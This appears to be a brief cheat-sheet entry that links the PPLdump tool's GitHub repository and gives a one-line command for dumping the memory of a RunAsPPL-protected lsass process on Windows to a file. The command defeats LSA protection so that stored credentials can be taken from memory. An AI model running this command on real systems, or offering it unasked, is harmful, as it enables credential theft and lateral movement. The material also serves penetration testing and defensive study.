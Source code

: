 ### source
https://github.com/itm4n/PPLdump  

### dump RunAsPPL protected lsass process
```
PPLdump.exe lsass.exe <file>.dmp
```

